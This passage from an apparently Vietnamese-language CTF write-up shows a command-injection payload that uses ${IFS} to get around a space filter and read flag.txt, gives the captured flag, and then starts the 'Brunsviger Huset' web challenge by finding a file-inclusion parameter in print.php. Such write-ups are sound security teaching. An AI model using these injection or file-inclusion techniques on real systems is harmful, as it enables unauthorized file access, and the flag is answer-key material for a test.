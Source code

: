 > Payload: ;cd${IFS}..;cd${IFS}..;cd${IFS}..;cd${IFS}..;more${IFS}flag.txt

> `Flag: brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}`
> {: .prompt-tip }

## III. Brunsviger Huset

> Mô tả: **Welcome to "Brunsviger Huset" (House of Brunsviger), the oldest Danish bakery in town! Our bakers have been perfecting their craft for over 150 years, and our signature brunsviger is a favorite among locals and tourists alike. But, it seems like our bakery has a secret ingredient that's not on the menu...Can you find the hidden flag that's been baked into our website? Be warned, our bakers are notorious for their clever hiding spots!**

Truy cập trang web ta được một trang web với chức năng bán các sản phầm về bánh mì, không có gì đặc biệt. Nhưng khi đọc thử source code của web nhận thấy một đoạn code đặc biệt:

```js
<script>
    function printCalendar() {
        // Open the print URL in a new window (Note to self: Remember to add print.php to robots.txt!)
        const printUrl = 'print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09';
        const printWindow = window.open(printUrl, '_blank', 'width=800,height=600,toolbar=no,menubar=no,scrollbars=yes');

        // Wait for the page to load, then trigger print
        if (printWindow) {
            printWindow.onload = function() {
                setTimeout(function() {
                    printWindow.print();
                    // Close the window after printing (optional)
                    setTimeout(function() {
                        printWindow.close();
                    }, 1000);
                }, 1000);
            };
        }
    }
</script>
```

Đoạn code này khả năng cao chứa lỗ hổng đọc file tùy ý **`File Inclusion`**. Thử truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09`{: .path} nhận được giao diện dưới đây:
![alt text](image-18.png)